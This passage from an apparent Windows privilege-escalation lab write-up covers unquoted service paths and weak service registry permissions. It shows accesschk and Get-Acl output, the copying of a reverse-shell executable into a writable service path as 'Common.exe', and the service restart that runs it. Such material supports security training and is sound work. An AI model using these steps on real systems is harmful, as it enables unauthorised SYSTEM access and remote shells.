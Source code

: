 ```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"                                                                                                                 
C:\Program Files\Unquoted Path Service                                                                                                                                                      
  Medium Mandatory Level (Default) [No-Write-Up]                                                                                                                                            
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

3. We can write a malicious program called "Common.exe" in `"C:\Program Files\Unquoted Path Service\"` and then start the service:

```cmd
C:\PrivEsc>copy reverse-shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy reverse-shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.

C:\PrivEsc>net start unquotedsvc
```

### 3. Weak Registry Permissions

In case, modifying the service config is not possible, then we have to check if we can modify any service registry:

![](img/weak-registry-perms.png)

Looks like we can! 

Now we can confirm that this service has a weak registry entry using either **Powershell** or **accesschk.exe**:

```powershell
C:\PrivEsc>powershell -exec bypass
powershell -exec bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\PrivEsc> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```
